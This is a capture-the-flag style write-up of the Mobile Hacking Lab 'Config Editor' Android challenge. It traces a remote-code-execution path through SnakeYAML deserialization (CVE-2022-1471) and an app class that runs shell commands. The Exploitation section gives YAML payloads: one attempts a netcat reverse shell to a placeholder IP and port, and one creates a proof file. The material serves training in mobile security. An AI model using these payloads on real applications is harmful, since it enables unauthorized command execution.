








# Mobile Hacking Lab - Lab Config Editor

  

- [Link to lab on Mobile Hackong Lab](https://www.mobilehackinglab.com/course/lab-config-editor-rce)

## Instructions

Welcome to the Config Editor Challenge! In this lab, you'll dive into a realistic situation involving vulnerabilities in a widely-used third-party library. Your objective is to exploit a library-induced vulnerability to achieve RCE on an Android application.

## Process

### First look at the app

Let's have a look at the app:  

  

From this screen, we click on ConfigEditor  

We have then this screen  

  

It seems to manipulate yaml files.  
If we try to load the provided file which is a yaml, we get this.  

  

> Note I got this in my local lab
>
> 

### Analyze the source code

Pull the app to analyse it `adb pull /data/app/~~7nJyEbpomszhvZKacYpBDQ==/com.mobilehackinglab.configeditor-Xlgn336TGw-b6-q5Xmjmyg==/base.apk`  

I decompiled it with apktools `apktool d base.apk`  



#### Manifest file

We see here another reference to yaml.  
But nothing much in terms of libraries.

As it is using yaml, I tried to check for a file with yaml in the name in the decompiled files using `find`.  

  

And if we search snakeyaml on Internet, it is a library. So it might be our vulnerable library.  
We find a mention to it in this [tutorial from baeldung](https://www.baeldung.com/java-snake-yaml) and it is suppose to parse yaml file

- [This here](https://bitbucket.org/snakeyaml/snakeyaml/src/master/) seems to be the repo

And the following articles refer to CVE-2022-1471 found on snakeyaml:

- [SnakeYaml: Constructor Deserialization Remote Code Execution](https://github.com/google/security-research/security/advisories/GHSA-mjmj-j48q-9wg2)
- [CVE-2022-1471 SnakeYAML Vulnerability in NetApp Products](https://security.netapp.com/advisory/ntap-20230818-0015/)

#### LegacyCommandUtil

Let's inspect the code with jadx-gui (as we won't have java code with apktool)  

You will find the content that is of interest for us here:  

  

Before having a look at the MainActivity I want to check a class that caught my attention, the `LegacyCommandUtil`. It might come in handy as the CVE is vulnerable to code injection.  

Here is the code  

```java
package com.mobilehackinglab.configeditor;

import androidx.constraintlayout.widget.ConstraintLayout;
import kotlin.Deprecated;
import kotlin.DeprecationLevel;
import kotlin.Metadata;
import kotlin.jvm.internal.Intrinsics;

/* compiled from: LegacyCommandUtil.kt */
@Deprecated(level = DeprecationLevel.ERROR, message = "Command Util is unsafe and should not be used")
@Metadata(d1 = {"\u0000\u0012\n\u0002\u0018\u0002\n\u0002\u0010\u0000\n\u0000\n\u0002\u0010\u000e\n\u0002\b\u0002\b\u0007\u0018\u00002\u00020\u0001B\r\u0012\u0006\u0010\u0002\u001a\u00020\u0003¢\u0006\u0002\u0010\u0004¨\u0006\u0005"}, d2 = {"Lcom/mobilehackinglab/configeditor/LegacyCommandUtil;", "", "command", "", "(Ljava/lang/String;)V", "app_debug"}, k = 1, mv = {1, 9, 0}, xi = ConstraintLayout.LayoutParams.Table.LAYOUT_CONSTRAINT_VERTICAL_CHAINSTYLE)
/* loaded from: classes4.dex */
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```

So it is definitely what I think it is. This will allow us to execute command in the system so we might be able to use it to exploit the CVE in the third party library.

#### mainActivity

In the mainActivity this function looks really interesting

```java
private final void handleIntent() {
        Intent intent = getIntent();
        String action = intent.getAction();
        Uri data = intent.getData();
        if (Intrinsics.areEqual("android.intent.action.VIEW", action) && data != null) {
            CopyUtil.Companion.copyFileFromUri(data).observe(this, new MainActivity$sam$androidx_lifecycle_Observer$0(new Function1<Uri, Unit>() { // from class: com.mobilehackinglab.configeditor.MainActivity$handleIntent$1
                /* JADX INFO: Access modifiers changed from: package-private */
                {
                    super(1);
                }

                @Override // kotlin.jvm.functions.Function1
                public /* bridge */ /* synthetic */ Unit invoke(Uri uri) {
                    invoke2(uri);
                    return Unit.INSTANCE;
                }

                /* renamed from: invoke  reason: avoid collision after fix types in other method */
                public final void invoke2(Uri uri) {
                    MainActivity mainActivity = MainActivity.this;
                    Intrinsics.checkNotNull(uri);
                    mainActivity.loadYaml(uri);
                }
            }));
        }
    }
```

So first of all I think it is worth mentioning that intent is a messaging object you can use to request an action from another app component.  
You might use an intent for various tasks, like opening a new screen (Activity), showing a web page, making a call, or even taking a photo.  
Now that this is cleared up, let's dive into understanding what the code does.  
It checks if the app was asked to open a link.  
If it was, the app tries to copy the content from that link and then do something with it.  

Here is a clear breakdown of the function:  

=> Check why the app was opened: The app looks at the reason it was opened. If it was opened because someone clicked a link that should open in the app (like clicking a link to a file that the app knows how to open), it moves to the next step.  

=> Get the link's content: The app tries to get the file or data from the link.

=> Do something with the content: Once the app has the content, it passes it to the function loadYaml.

```java
public final void loadYaml(Uri uri) {
        try {
            ParcelFileDescriptor openFileDescriptor = getContentResolver().openFileDescriptor(uri, "r");
            ParcelFileDescriptor parcelFileDescriptor = openFileDescriptor;
            FileInputStream inputStream = new FileInputStream(parcelFileDescriptor != null ? parcelFileDescriptor.getFileDescriptor() : null);
            DumperOptions $this$loadYaml_u24lambda_u249_u24lambda_u248 = new DumperOptions();
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setDefaultFlowStyle(DumperOptions.FlowStyle.BLOCK);
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setIndent(2);
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setPrettyFlow(true);
            Yaml yaml = new Yaml($this$loadYaml_u24lambda_u249_u24lambda_u248);
            Object deserializedData = yaml.load(inputStream);
            String serializedData = yaml.dump(deserializedData);
            ActivityMainBinding activityMainBinding = this.binding;
            if (activityMainBinding == null) {
                Intrinsics.throwUninitializedPropertyAccessException("binding");
                activityMainBinding = null;
            }
            activityMainBinding.contentArea.setText(serializedData);
            Unit unit = Unit.INSTANCE;
            CloseableKt.closeFinally(openFileDescriptor, null);
        } catch (Exception e) {
            Log.e(TAG, "Error loading YAML: " + uri, e);
        }
    }
```

Here is the loadyaml function. We can see it uses the snakeyaml library. We know this because in the import we have this  

```java
import org.yaml.snakeyaml.DumperOptions;
import org.yaml.snakeyaml.Yaml;
```

And in the function we can see that DumperOptions is used along with Yaml.  

So what does the loadyaml function do?  
In brief it seems to read a YAML file from the uri provided, it processes it, and display the formatted content in the application's UI.  

##### Serialization

We also see that it serialize and deserialize the object.  
In brief, serialization is the process of turning an object into a format that can be easily stored or transmitted, and later reconstructed back into the original object.  
For example, imagine you have a complex puzzle that you've put together; serialization would be like taking a picture of the puzzle, allowing you to show it to someone else or look at it again later without having to put the puzzle together again.  
When you want to recreate the puzzle, you just look at the picture.  
In computing, serialization often turns objects into a format like a string of text (JSON, XML, etc.) or a byte stream, so it can be saved to a file, sent over a network, or stored in a database.  

I wanted to explain serialization because this is where the vulnerability lies with CVE-2022-1471 in snakeyaml.  

So here it seems like we could try to feed the app with a malicious yaml file to get remote code execution.  

To exploit it I recommend that you read the blog posts I shared in the resources.

### Exploitation

Now that we understood everything related to the vulnerability and the vulnerable snippet of code, we can put everything together and try to exploit the vulnerability.  
We could do the following methodology:  

- Create a malicious yaml file that will use the LegacyCommandUtil to send a remote shell to our server
- Open the yaml with the vulnerable application and hopefully get the shell.

However, How could we get a shell? Is there a netcat like tool in android os by default? According to this stack overflow [article](https://android.stackexchange.com/questions/133748/is-there-any-netcat-like-application-available-in-android-os-by-default-like-mo) there should be with `toybox nc [options]`  
Let's see which version of Android is required by the app in the manifest it says `minSdkVersion="26"`.  

And sdk 26 should be Android 8.0 which is Oreo and therefore later than Nougat, so we should be good.

Let's try this.  

Here is the code in the yaml

```yml
exploit:
!!com.mobilehackinglab.configeditor.LegacyCommandUtil
["toybox nc IP PORT"]
```

> Note: If you are doing this on a local lab, check [this article for networking with your emulator on android.com](https://developer.android.com/studio/run/emulator-networking)

I am having an issue with netcat and can not get a proper shell.  

Let's try to create a file with the exploit. Something like this in our yaml should work.  

```yml
exploit: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/files/exploit-proof.txt"]
```

And it does!  

We load our malicious yaml  

  

And in the shell from our emulator we can confirm that the file is created  

  

## Resources

- [Resolving CVE-2022-1471  with the SnakeYAML 2.0 Release - Nova Trauben](https://www.veracode.com/blog/research/resolving-cve-2022-1471-snakeyaml-20-release-0)
- [Unsafe deserialization vulnerability in SnakeYaml (CVE-2022-1471) - Brian Vermeer](https://snyk.io/fr/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/)
- [Constructing a malicious YAML file for SnakeYAML (CVE-2022-1471) - mscharhag](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471)
- [Emulator networking on Android studio](https://developer.android.com/studio/run/emulator-networking)
